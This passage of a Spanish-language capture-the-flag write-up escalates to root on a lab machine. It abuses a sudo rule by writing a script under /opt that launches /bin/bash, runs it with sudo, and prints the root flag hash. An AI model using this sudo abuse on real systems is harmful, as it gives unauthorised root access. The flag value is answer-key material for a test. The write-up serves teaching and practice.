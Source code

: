 Veremos que podemos ejecutar el script de `/opt` como el usuario `root` vamos a ver que permisos tiene o que contiene dicho script.

Si nos vamos a la carpeta `/opt` veremos que no hay nada, por lo que podremos realizar lo siguiente para ser el usuario `root`.

```shell
mkdir /opt/boom
cd /opt/boom
nano /opt/boom/boom.sh

#Dentro del nano
#!/bin/bash

echo "Obtieniendo una shell como root..."
/bin/bash
```

Ahora le establecemos los permisos necesarios de ejecuccion.

```shell
chmod +x /opt/boom/boom.sh
```

Ahora vamos a ejecutarlo de la siguiente forma:

```shell
sudo /opt/boom/boom.sh
```

Info:

```
Obtieniendo una shell como root...
root@find:/opt/boom# whoami
root
```

Con esto veremos que ya seremos `root` por lo que vamos a leer la `flag` de `root`.

> root.txt

```
c8aaf0f3189e000006c305bbfcbeb790
```
